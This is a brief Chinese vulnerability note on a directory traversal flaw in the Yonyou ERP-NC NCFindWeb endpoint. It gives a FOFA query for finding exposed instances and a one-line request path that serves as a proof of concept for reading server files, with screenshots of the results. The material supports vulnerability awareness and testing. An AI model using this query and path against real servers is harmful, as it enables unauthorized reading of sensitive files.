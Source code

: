 # 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

```
用友ERP-NC
```

## FOFA

```
app="用友-UFIDA-NC"
```

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![yongyou-8-1](./images/yongyou-8-1.png)

查看 ncwslogin.jsp 文件

![yongyou-8-2](./images/yongyou-8-2.png)